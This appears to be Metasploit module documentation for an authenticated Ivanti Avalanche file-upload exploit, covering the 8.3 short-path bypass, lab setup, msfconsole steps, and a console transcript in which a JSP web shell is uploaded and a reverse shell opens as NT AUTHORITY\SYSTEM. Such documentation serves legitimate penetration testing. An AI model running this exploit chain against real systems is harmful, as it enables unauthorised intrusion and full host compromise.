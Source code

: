 ## Vulnerable Application

For versions of Ivanti Avalanche below `v6.4.0.186`, an authenticated administrator
can change the default path for the Central FileStore. While the default path
is set to `C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files`,
Ivanti Avalanche restricts the path from being set to folders within the `Windows` and
`Program Files` directories. These restrictions do not account for MS-DOS (8.3) path
names, so this naming convention can be used to set the Central FileStore path to
the web root of the application. This module leverages this vulnerability to
upload a JSP web shell and gain RCE as `NT AUTHORITY\SYSTEM`.

### Installation Instructions

The software requires a version of MSSQL server to be installed. The installation
instructions use MSSQL Server 2012, but 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` is selected as the default for
server authentication. This can either be done at installation or via
SQL Server Management Studio.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`

Instructions for installing Ivanti Avalanche can be found [here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced?language=en_US)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload`
4. Do: `set USERNAME <uname>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <ip>`
7. Do: `run`
8. You should get a shell as `NT AUTHORITY\SYSTEM`.

## Options

### USERNAME

An admin user with which to log into the software

### PASSWORD

Password belonging to admin user

## Scenarios

### Ivanti Avalanche v6.3.4.153 - Windows 10 x64

```
msf6 > use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set rhost 192.168.140.150
rhost => 192.168.140.150
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > options

Module options (exploit/windows/http/ivanti_avalanche_filestoreconfig_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to log in with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.140.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                         /using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /AvalancheWeb    yes       The URI of the Example Application
   USERNAME   amcadmin         yes       User name to log in with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Original FileStore config path: 'C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files'
[*] Changing FileStore config path to 'C:\PROGRA~1\Wavelink\AVALAN~1\Web'
[+] Successfully uploaded 'LWRrxDXWxhbz.jsp'
[*] Attempting to restore config path
[!] Tried to delete webapps/LWRrxDXWxhbz.jsp, unknown result
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.150:50249) at 2023-05-08 14:27:58 -0500
[!] Failed to restore the FileStore config path to its original path. Please manually restore it.
[+] Successfully restored the FileStore config path


Shell Banner:
Microsoft Windows [Version 10.0.19041.630]
-----


C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>whoami
whoami
nt authority\system

C:\Program Files\Wavelink\Avalanche\Web>^C
Abort session 1? [y/N]  y

[*] 192.168.140.150 - Command shell session 1 closed.  Reason: User exit
```
